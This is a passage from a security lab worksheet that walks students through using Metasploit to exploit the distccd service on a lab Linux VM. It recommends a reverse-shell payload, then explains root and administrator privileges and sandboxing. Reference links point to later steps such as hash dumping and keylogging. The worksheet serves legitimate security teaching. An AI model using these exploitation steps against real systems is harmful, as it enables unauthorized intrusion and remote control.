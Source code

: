 ```bash
msfconsole
```

```bash
msf > search distccd
```

```bash
msf > info exploit/==edit:name==
```

> Note: Where, *name* is the exploit name (path) determined using the previous command.

==action: Read the exploit details from the above command, particularly the description==.

==action: Use the MSF exploit identified above to attack the Linux Server VM, to gain shell access==.

> Hint: "use *exploit*", "show payloads", "set payload *payload*", "show options", "set *option value*", "exploit". Don't forget to set the IP address, when setting the options. A good payload would be "cmd/unix/reverse".

![][msf_set_rhost_exploit]
*Shell access on the Linux server*

> Note: Although you will not be greeted with a command prompt, you should now have shell access. ==action: Confirm you have shell access to the target Linux server system. Run:==

```bash
ip a
```

## Assessing the level of access {#assessing-the-level-of-access}

The first question the attacker needs to ask themselves, is “what level of access do I have?”. That is, what is the level of authorisation that the attacker has after a successful attack?

### Got root? {#got-root}

Most operating systems have the concept of a superuser, which is a special user account that has permission to do practically anything on the system. On Windows this is the Administrator account (with an SID ending in 500\) or the System account (used for background services), and on Unix-based systems this is known as the root user (with a UID of 0). Note that on Windows XP and earlier versions of Windows it is normal for almost everything to run as an administrator account.

Most programs on Unix and newer versions of Windows *should* run under ordinary user accounts, which have limited privileges. The access controls in place restrict what each user is allowed to do on the system. Very new systems can (and should) place even further restrictions on programs based on what they need to be able to access; this is known as sandboxing (or application-oriented access controls). For example, Android and Windows 8 metro apps do limit the actions of applications to a list of privileges the author has specified. Unfortunately, in practice, this is still very rare.

An attacker that has taken control of software running on a remote system, will want to establish what security controls are in place, and what level of access the software that they now control is running as.


[^1]:  If one method does not work, try the others.
[vm_launch_icon]: {{ site.baseurl }}/assets/images/common/vm_launch_icon.png
[armitage_add_hosts]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/armitage_add_hosts.png
[armitage_scan]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/armitage_scan.png
[armitage_interact_meterpreter_menu]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/armitage_interact_meterpreter_menu.png
[armitage_browse_files]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/armitage_browse_files.png
[armitage_dump_hashes]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/armitage_dump_hashes.png
[armitage_meterpreter_show_processes]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/armitage_meterpreter_show_processes.png
[armitage_launch_keylog]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/armitage_launch_keylog.png
[win_login]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/win_login.png
[meterpreter_keylog]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/meterpreter_keylog.png
[armitage_vnc]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/armitage_vnc.png
[armitage_vnc_desktop]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/armitage_vnc_desktop.png
[armitage_pivot]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/armitage_pivot.png
[armitage_meterpreter_session_created]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/armitage_meterpreter_session_created.png
[armitage_vnc_running_ip_and_port]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/armitage_vnc_running_ip_and_port.png
[msf_set_rhost_exploit]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/msf_set_rhost_exploit.png
[nmap_distcc]: {{ site.baseurl }}/assets/images/introducing_attacks/7_post-exploitation/nmap_distcc.png
